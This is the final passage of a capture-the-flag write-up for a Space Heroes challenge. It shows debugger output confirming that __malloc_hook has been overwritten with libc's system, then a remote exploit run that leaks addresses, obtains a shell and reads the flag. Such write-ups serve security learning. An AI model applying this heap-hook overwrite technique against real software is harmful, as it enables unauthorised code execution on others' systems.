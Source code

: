 ```
gef➤  x/gx 0x7fc74fdb9c10
0x7fc74fdb9c10 <__malloc_hook>: 0x00007fc74fa4bb70
gef➤  x/i 0x00007fc74fa4bb70
   0x7fc74fa4bb70 <__libc_system>:      test   rdi,rdi
```
And here is what it looks like when we run the exploit code against the remote target:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes/force$ python3 use_the_force_exploit.py
[+] Opening connection to 0.cloud.chals.io on port 11996: Done
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes/force/.glibc/glibc_2.28_no-tcache/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'"This is our chance to destroy the Death Star, Luke"\nYou feel a system at'
0x7fbae02b7b70
b'\nYou feel something else at'
0xaac000
b'(1) Reach out with the force\n(2) Surrender'
b'\nHow many midi-chlorians?:'
b' What do you feel?:'
0x7fbae0625c10
b' (1) Reach out with the force\n(2) Surrender'
b'\nHow many midi-chlorians?:'
b' What do you feel?:'
b' (1) Reach out with the force\n(2) Surrender'
b'\nHow many midi-chlorians?:'
b' What do you feel?:'
b' (1) Reach out with the force\n(2) Surrender'
b'\nHow many midi-chlorians?:'
b' What do you feel?:'
[*] Switching to interactive mode
 $ ls
flag.txt  force
$ cat flag.txt
shctf{st4r_w4rs_1s_pr3tty_0v3rr4t3d}
$
```
Thanks for reading!
